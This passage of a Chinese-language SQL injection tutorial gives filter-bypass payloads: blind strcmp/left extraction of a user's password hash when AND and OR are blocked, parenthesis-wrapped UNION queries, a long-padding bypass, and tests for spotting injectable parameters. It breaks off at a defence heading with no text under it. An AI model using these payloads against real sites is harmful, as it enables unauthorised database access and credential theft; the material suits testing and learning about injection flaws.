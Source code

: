 strcmp(left(‘password’,1), 0x69) = 1

strcmp(left(‘password’,1), 0x70) = 0

strcmp(left(‘password’,1), 0x71) = -1 

替换，left 用来取字符串左起 1 位的值，strcmp 用来比较两个值，如果比较结果相等就为 0，左边小的话就为-1，否则为 1。

\9. 盲注无需or和and：

例句：index.php?id=1

当and和or被过滤时，可以将 1修改为是通过语句生成的， index.php?uid=strcmp(left((select+hash+from+users+limit+0,1),1),0x42)+123，123 的时候页面是正确的，现在再盲猜 hash 的第一位，如果第一位等于 0x42 也就是 B，那么strcmp结果为0，0+123=123，所以页面应该是正确的。否则就说明不是 B，就这样猜，不用 and 和 or 了。

\10. 加括号：

如?id=(1)union(select(1),mid(hash,1,32)from(users))  

?id=(1)union(((((((select(1),hex(hash)from(users))))))))

?id=(1)or(0x50=0x50)

11.缓冲区溢出绕过：

如id=1 and (select 1)=(Select 0xAAAAAAAAAAAAAAAAAAAAA)+UnIoN+SeLeCT+1,2,version(),4,5,database(),user(),8,9,10 #

其中 A 越多越好，一般要求 1000 个以上。

## 二、检测方法：

1、基于报错的检测方法：

使用各种符号以及组合：‘  “  (  %

如直接在URL后添加单引号看是否报错index.php?id=1'

2、基于布尔的检测：

最常用的如1’ and ‘1’=’1和1’ and ‘1’=’2 相当于 1’ and ‘1和1’ and ‘0

当返回的结果不同时即有漏洞

3、直接在URL地址后面加-1、-0、'%2B'和'%2B'a：

添加-1：index.php?id=123-1，当前后访问的页面不同时，即可确定存在数字型SQL注入漏洞；

添加-0：index.php?id=123-0，当前后访问的页面相同时，再加上-1，返回错误页面，则表示存在数字型SQL注入漏洞；

添加'%2B'和'%2B'a：这里%2B为‘+’的URL编码，当先添加'%2B'时index.php?id=123'%2B'返回同样的页面，而添加'%2B'a时返回错误，这种适用于SQL语句中id值被一对单引号括起来的情况。

4、判断盲注的常用方法：

1’ and 1=1 #  

1’ and 1=2 #  

判断这两种不同的输入是否有不一样的显示，如果一个正常一个通用的错误提示或者啥也不显示，则几乎可以确定是含有SQL注入漏洞的。

## 三、防御方法：

